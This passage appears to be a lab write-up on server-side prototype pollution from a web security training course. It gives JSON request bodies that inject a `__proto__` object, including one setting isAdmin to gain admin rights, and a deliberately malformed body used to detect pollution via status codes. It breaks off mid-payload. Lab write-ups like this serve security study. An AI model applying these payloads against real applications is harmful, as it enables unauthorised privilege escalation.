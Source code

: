 5. Now you can notice that the `__proto__` is not being shown and only `foo:bar` is being reflected.

6. Now we can inject the following json data 
    ```
    {
        "address_line_1": "cool1",
        "address_line_2": "cool2",
        "city": "cool3",
        "postcode": "cool4",
        "country": "cool5",
        "sessionId": "JrjrCIIdmwkTXjL8wKFQFYisAmuulyq5",
        "__proto__": {
            "isAdmin": "true"
        }
    }
    ```

    Which provided us admin access and now we should be able to delete carlos.


## Lab: Detecting server-side prototype pollution without polluted property reflection
1. Login into the account 
2. Change address 
3. Now add the following code 
    ```json
    {
        "address_line_1": "cool1",
        "address_line_2": "cool2",
        "city": "cool3",
        "postcode": "cool4",
        "country": "cool5",
        "sessionId": "JrjrCIIdmwkTXjL8wKFQFYisAmuulyq5",
        "__proto__": {
            "foo": "bar"
        }
    }
    ```
4. The response does not contains the prototype of foo.
5. Now break application intentionally by removing one of the comma.
    ```json
    {
        "address_line_1": "cool1",
        "address_line_2": "cool2",
        "city": "cool3",
        "postcode": "cool4",
        "country": "cool5",
        "sessionId": "JrjrCIIdmwkTXjL8wKFQFYisAmuulyq5"
        "__proto__": {
            "foo": "bar"
        }
    }
    ```
6. Now update the status code.
    ```json
    {
        "address_line_1": "cool1",
        "address_line_2": "cool2",
        "city": "cool3",
        "postcode": "cool4",
        "country": "cool5",
        "sessionId": "JrjrCIIdmwkTXjL8wKFQFYisAmuulyq5",
        "__proto__": {